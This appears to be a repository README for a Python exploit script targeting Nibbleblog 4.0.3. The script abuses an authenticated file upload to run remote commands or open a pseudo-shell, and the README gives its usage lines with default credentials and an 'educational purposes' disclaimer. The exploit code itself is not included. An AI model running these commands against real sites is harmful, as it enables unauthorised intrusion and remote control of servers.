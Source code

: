# Project Title

Nibbleblog 4.0.3 File Upload Authenticated Remote Code Execution (RCE)

## Description

A python3 script for Nibbleblog 4.0.3 File Upload Authenticated Remote Code Execution (RCE)

## Getting Started

### Executing program

* RCE
```
python3 nibbleblog_4.0.3.py -t http://nibblesrce.com/blog/admin.php -u admin -p password -rce whoami
```
* Pseudo-shell
```
python3 nibbleblog_4.0.3.py -t http://nibblesrce.com/blog/admin.php -u admin -p password -shell
```

## Help

For help menu:
```
python3 nibbleblog_4.0.3.py -h
```

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.